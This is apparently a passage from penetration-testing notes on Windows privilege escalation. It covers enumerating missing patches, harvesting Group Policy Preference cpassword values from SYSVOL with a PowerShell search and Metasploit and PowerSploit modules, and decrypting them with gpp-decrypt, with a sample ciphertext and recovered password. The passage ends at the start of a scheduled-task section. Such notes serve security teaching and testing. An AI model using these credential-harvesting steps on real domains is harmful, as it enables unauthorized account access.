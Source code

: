 And find the patches that were not applied yet (shows as 'update')

### Seatbelt

[Seatbelt ](../automated-tools.md#seatbelt)can enumerate missing patches.

#### Metasploit

Use `use post/windows/gather/enum_patches`

## GPP Passwords

Group Policy Preference (GPP) is created, there’s an xml file created in the SYSVOL share with that config data, including any passwords associated with the GPP. For security, Microsoft AES encrypts the password before it’s stored as cpassword. But then Microsoft [published the key](https://msdn.microsoft.com/en-us/library/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be.aspx) on MSDN&#x20;

### Manual

Find the Domain Controller and browse to `\\DC\SYSVOL\` find all the passwords by searching the following files:

```
Get-ChildItem -Path "\\$Server\SYSVOL" -Recurse -ErrorAction SilentlyContinue -Include 'Groups.xml','Services.xml','Scheduledtasks.xml','DataSources.xml','Printers.xml','Drives.xml'
```

&#x20;obtain the value of the attribute **cpassword**.

### Metasploit

`post/windows/gather/credentials/gpp`

### PowerSploit

Use the `Get-GPPPassword `which is under Exfiltration&#x20;

Or the  `Get-CachedGPPPassword `For locally stored GP Files which is part of 'PowerView'

### Decrypt

Decrypt the password using the Kali built in tool called gpp-decrypt that will do it:&#x20;

`root@kali:~# gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ `\
`GPPstillStandingStrong2k18`&#x20;

## Scheduled tasks

We are looking for tasks that are run by a privileged user and we can change their commands or paths.

**Open task scheduler:**

taskschd.msc
